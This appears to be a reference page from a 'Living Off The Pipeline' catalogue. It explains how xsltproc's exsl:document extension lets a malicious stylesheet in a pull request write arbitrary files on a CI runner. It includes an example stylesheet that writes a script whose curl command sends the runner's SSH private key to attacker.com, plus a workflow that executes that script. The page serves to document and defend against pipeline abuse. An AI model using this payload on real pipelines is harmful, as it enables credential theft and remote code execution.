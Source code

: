 ```yaml
---
layout: tool
title: xsltproc
parent: Living Off The Pipeline
nav_order: 33
---
```


## Living Off The Pipeline - xsltproc

`xsltproc` is a command-line tool for applying XSLT stylesheets to XML documents. It can be abused as a "Living Off The Pipeline" (LOTP) "Setup Gadget" because the XSLT language supports extensions that allow for writing arbitrary files to the filesystem.

### First-Order LOTP Gadget

`xsltproc` is a **First-Order LOTP Gadget**. It provides an "Arbitrary File Write" primitive when it processes a malicious XSLT stylesheet.

#### Malicious Primitive: Arbitrary File Write

The attack vector is the `exsl:document` element, which is part of the EXSLT standard and is supported by `xsltproc`. This element is intended to allow a single transformation to create multiple output files. However, an attacker can abuse the `href` attribute to specify an arbitrary file path, including path traversal sequences (`../`).

When `xsltproc` processes a stylesheet containing a malicious `exsl:document` element, it will write attacker-controlled content to the specified location on the CI runner's filesystem. This can be used to create a malicious script, overwrite a configuration file, or poison a file like `~/.bashrc` to set up a later RCE.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request containing a malicious XSLT stylesheet.
    ```xml
    <!-- transform.xsl -->
    <xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:exsl="http://exslt.org/common"
      extension-element-prefixes="exsl">
      <xsl:template match="/">
        <!-- This element writes a malicious script to a predictable location -->
        <exsl:document href="/tmp/pwn.sh" method="text">
          <xsl:text>curl --data-binary @$HOME/.ssh/id_rsa http://attacker.com/</xsl:text>
        </exsl:document>
      </xsl:template>
    </xsl:stylesheet>
    ```

2.  **Vulnerable Workflow:** The pipeline contains two steps: one to transform an XML file, and a later one that executes a script from the temporary directory.
    ```yaml
    - name: Process XML data
      run: xsltproc transform.xsl data.xml

    - name: Run utility script
      run: bash /tmp/pwn.sh
    ```

3.  **Execution:**
    *   **Setup:** The `xsltproc` command runs, processing the attacker's stylesheet. The `exsl:document` element creates the `/tmp/pwn.sh` file containing the attacker's payload.
    *   **Execution:** The `Run utility script` step executes the newly created malicious script, leading to RCE.

### References

*   [EXSLT `document` element](http://www.exslt.org/exsl/elements/document/index.html)
*   `xsltproc` man page
